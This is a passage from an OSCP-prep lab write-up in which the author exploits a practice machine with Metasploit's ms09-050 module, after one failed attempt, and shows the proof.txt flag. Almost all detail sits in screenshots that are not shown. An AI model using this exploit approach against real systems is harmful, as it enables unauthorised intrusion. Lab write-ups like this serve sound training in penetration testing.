



The error in the first picture shouldn't matter and it should still fire the exploit.

Fuck it, let's try metasploit instead.


## Metasploit

After booting up `msfconsole` we go ahead and look for `ms09-50`:



After setting all the options:



Well shit, box reverting time.

After trying many different ports the shell still would not fire. Anyways I did everything correct apparently but just didn't struck lucky, sucks.

>[!note]
>I tried this on my laptop a day afterwards and here the metasploit exploit *did* fire.




### proof.txt



---

**Finished 08-01-2025**

[^Links]: [[OSCP Prep]]

#metasploit 